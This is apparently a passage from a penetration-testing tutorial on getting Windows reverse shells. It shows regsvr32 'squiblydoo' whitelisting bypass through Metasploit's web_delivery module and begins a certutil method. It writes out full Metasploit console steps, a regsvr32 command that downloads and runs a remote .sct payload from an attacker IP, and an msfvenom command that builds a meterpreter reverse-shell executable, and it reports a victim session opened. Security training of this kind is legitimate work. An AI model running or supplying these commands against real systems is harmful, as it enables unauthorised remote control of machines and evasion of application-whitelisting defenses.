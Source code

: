 ```

RegSvr32.exe has the following command-line options:

```
Syntax: Regsvr32 [/s][/u] [/n] [/i[:cmdline]] <dllname>

/u – Unregister server
/i – Call DllInstall passing it an optional [cmdline]; when it is used with /u, it calls dll to uninstall
/n – do not call DllRegisterServer; this option must be used with /i
/s – Silent; display no message boxes
```

### Launch Regsvr32 via Script Web Delivery of Metasploit

This module quickly fires up a web server that serves a payload. The provided command which will allow for a payload to download and execute. It will do it either specified scripting language interpreter or “squiblydoo” via regsvr32.exe for bypassing application whitelisting. The main purpose of this module is to quickly establish a session on a target machine when the attacker has to manually type in the command: e.g. Command Injection.

Regsvr32 uses “squiblydoo” technique for bypassing application whitelisting. The signed Microsoft binary file, Regsvr32, is able to request a .sct file and then execute the included PowerShell command inside of it. Both web requests (i.e., the **.sct file and PowerShell** download/execute) can occur on the same port. “PSH (Binary)” will write a file to the disk, allowing for custom binaries to be served up to be downloaded/executed.

```
use exploit/multi/script/web_delivery
msf exploit (web_delivery)>set target 3
msf exploit (web_delivery)> set payload windows/meterpreter/reverse_tcp
msf exploit (web_delivery)> set lhost 192.168.1.109
msf exploit (web_delivery)>set srvhost 192.168.1.109
msf exploit (web_delivery)>exploit
```

Copy the highlighted text shown in below window

![](images/reverse_shell_windows_12.png)

Once you will execute the scrobj.dll file on the remote machine with the help of regsrv32.exe, you will get the reverse connection at your local machine (Kali Linux).

```regsvr32 /s /n /u /i:http://192.168.1.109:8080/xo31Jt5dIF.sct scrobj.dll```

![](images/reverse_shell_windows_13.png)

As you can observe, we have the meterpreter session of the victim as shown below:

![](images/reverse_shell_windows_14.png)

## Certutil.exe

Certutil.exe is a command-line program that is installed as part of Certificate Services. We can use this tool to **execute** our malicious **exe file** in the target machine to get a meterpreter session.

### Launch certutil Attack via Msfvenom

Generate a malicious executable (.exe) file with msfvenom and start multi/handler to get the reverse shell of the victim’s machine.

```msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f exe > shell.exe```
 
```